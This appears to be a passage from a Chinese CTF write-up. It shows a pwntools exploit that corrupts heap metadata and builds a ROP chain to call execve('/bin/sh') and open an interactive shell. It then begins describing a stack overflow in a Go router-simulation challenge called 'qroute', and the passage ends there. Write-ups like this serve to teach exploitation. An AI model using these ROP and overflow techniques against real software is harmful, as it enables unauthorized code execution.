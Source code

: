 ```py
print(f'stdin_buf:               {hex(stdin_buf)} ')
print(f'Memory when read_line: {hex(ebp_read_line)}')

edit(0, list_bytes2bytes([p64(0), p64(0), p64(0), p64(0x401), p64(ebp_read_line), p64(0), p64(0), p64(0x401)]))

rdi_rbp = program_base + 0x000000000001dd45 # pop rdi ; pop rbp ; ret
rsi_rbp = program_base + 0x000000000001e032 # pop rsi ; pop rbp ; ret
rax = program_base + 0x0000000000016f3e # pop rax ; ret
clear_rdx_pop_3 = program_base + 0x000000000005b1c2 # mov rdx, r8 ; pop rbx ; pop r14 ; pop rbp ; ret
syscall = program_base + 0x0000000000026fcf # syscall

pay = p64(rdi_rbp) * 0x13 
pay += p64(rdi_rbp) + p64(stack_addr) * 2 
pay += p64(rsi_rbp) + p64(0) * 2 
pay += p64(clear_rdx_pop_3) + p64(0) * 3
pay += p64(rax) + p64(0x3b)
pay += p64(rdi_rbp) + p64(stack_addr + 0x48 + 8) * 2 
pay += p64(syscall)

p.sendlineafter(b'Choice >', b'4')
p.sendlineafter(b'Index >', ljust_mul(pay, 0x3f0, b'/bin/sh\x00'))

p.interactive()
```

# [](#header-3)pwn qroute

这个题是用 golang 编写的，类似于模拟路由器远程调试程序的程序. 主要漏洞点就在 `main__ptr_Router_ping` 函数中，该函数通过 `exec ping <指令> <参数>` 调用

```c
__int64 __golang main__ptr_Router_ping(
        __int64 a1,
        char *a2,
        __int64 a3,
        __int64 j,
        __int64 a5,
        __int64 a6,
        __int64 a7,
        __int64 a8,
        __int64 a9)
```

该函数初始化了一个长度为 72 的变量，对该变量的写入可以越界，从而导致 Stack OverFlow.   
